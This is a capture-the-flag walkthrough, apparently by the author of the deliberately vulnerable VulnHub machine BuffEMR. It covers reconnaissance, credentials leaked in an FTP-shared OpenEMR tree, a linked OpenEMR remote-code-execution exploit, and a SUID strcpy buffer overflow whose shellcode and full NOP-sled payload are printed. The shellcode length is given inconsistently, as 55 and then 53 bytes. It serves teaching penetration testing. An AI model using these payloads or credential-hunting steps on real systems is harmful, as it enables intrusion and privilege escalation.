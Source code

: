 ```yaml
---
layout: post
title: BuffEMR Walkthrough
---
```

![](/images/2021-12-01-BuffEmr/0.png)


This is a walk through of "BuffEMR" machine created by myself and is available here for hacking: [BuffEmr](https://www.vulnhub.com/entry/buffemr-101,717/). 

This machines have been purposefully created for practicing penetration testing skills. I have been getting a lot of twitter DMs for hint and helps to PAWN this machine, so I decided to release the walkthrough !


Firstly, we will start with Nmap:
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-25 09:44 EDT
Nmap scan report for 10.0.0.63
Host is up (0.0085s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 0        0            4096 Jun 21 14:21 share
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.0.0.154
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 92:4c:ae:7b:01:fe:84:f9:5e:f7:f0:da:91:e4:7a:cf (RSA)
|   256 95:97:eb:ea:5c:f8:26:94:3c:a7:b6:b4:76:c3:27:9c (ECDSA)
|_  256 cb:1c:d9:56:4f:7a:c0:01:25:cd:98:f6:4e:23:2e:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.49 seconds

```

As we can see, there are three ports open (http, ftp, ssh).

We will check the webapp first:
#![](/images/2021-12-01-BuffEmr/1.png)

It is running openEMR, If you try try some default credentials, it won’t work!

For now, we will login into FTP as we can use anonymous login:

#![](/images/2021-12-01-BuffEmr/2.png)

The FTP share contains source code for openemr, let’s try and find out any interesting information’s here by searching for sensitive information (eg: grep -ri password .
  or grep -ri key .)


The first thing I found was a pdfkey for something :

#![](/images/2021-12-01-BuffEmr/3.png)

The second interesting thing I found was a file under /tests that contains admin creds : 

#![](/images/2021-12-01-BuffEmr/4.png)

Now let’s try and use this on openemr:

#![](/images/2021-12-01-BuffEmr/5.png)

Now we have access and we know the version.

After looking for exploits, I found multiple vulnerabilities for this version of OpenEMR including remote code execution.

Reference: [Exploit](https://www.exploit-db.com/exploits/45161)


Run the python file with a netcat listening on port 1337:

#![](/images/2021-12-01-BuffEmr/6.png)


#![](/images/2021-12-01-BuffEmr/7.png)

#![](/images/2021-12-01-BuffEmr/8.png)

Now we have access to the box:

#![](/images/2021-12-01-BuffEmr/9.png)

We don’t have access to user folder, but we do have access to /var where I found a password protected zip file:

#![](/images/2021-12-01-BuffEmr/10.png)

Now I am going to transfer the file to my local machine and use the pdfkey found earlier to see what is in it:

#![](/images/2021-12-01-BuffEmr/11.png)


#![](/images/2021-12-01-BuffEmr/12.png)

The zip file contains the password which can be used to ssh as buffemr:

#![](/images/2021-12-01-BuffEmr/13.png)

#![](/images/2021-12-01-BuffEmr/14.png)

The first thing I do to escalate privilege is to see the current user AKA.BuffEMR have the rights to run anything as sudo, which in this case we does not have:

#![](/images/2021-12-01-BuffEmr/15.png)

Now after some enumeration, I found an executable owned by root (suid bit set) in the /opt directory :

#![](/images/2021-12-01-BuffEmr/16.png)

I ran strings command on the binary and found out that there is a function the binary use called “strcpy”.  The strcpy() function does not specify the size of the destination array, so buffer overrun is often a risk.

#![](/images/2021-12-01-BuffEmr/17.png)

Maybe, we will try to over flow the buffer to run a shell code to get root !

We will use gdb for this:

#![](/images/2021-12-01-BuffEmr/18.png)

The hex of A is \x41, at 520 it overrides EIP and at 510 it doesn’t override EIP, so we need to find the magic number that overrides EIP without going over, between 520 and 510:


After few tries, I found out that 516 is the magic number:

#![](/images/2021-12-01-BuffEmr/19.png)

Now, we need a shell code:

[shell-code-priv-esc]( https://github.com/san3ncrypt3d/shell-code-priv-esc)

This is the shell code I am going to use:
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

```

Let’s find out the length of the shell code:

#![](/images/2021-12-01-BuffEmr/20.png)

Our shell code is 55, we needed 516 A’s to override EIP, and 4 bytes is return address, so the buffer size will be 516-4 = 512

So, the plan is to use NOPs or no operations followed by shell code, to get a shell.

How many NOPs ?

512 – 53 = 459.

Note: NOP is \x90 in hex

So, we are going to run this:

```
python -c “print ‘\x90’ * 459 + ‘\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh’ + ‘\x41\x41\x41\x41’”
```



We don’t know the return address yet, so I am going to use 41 (A’s)

#![](/images/2021-12-01-BuffEmr/21.png)

Now use the command to examine the memory:
```
x/300wx $esp
```

#![](/images/2021-12-01-BuffEmr/22.png)

As we can see, the 0x90 is our NOP, so we can use any of the return address of the NOP to get our shell executed after:



Let’s run this:

```
run $(python -c "print '\x90'*459 + '\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + '\xc0\xd6\xff\xff'")
```

After execution, we get a shell but inside gdb it still says we don’t have the elevated privilege, so exit out of gdb and run the same command :


#![](/images/2021-12-01-BuffEmr/23.png)

Now we can access the root flag as we escalated our privilege :

#![](/images/2021-12-01-BuffEmr/22.png)
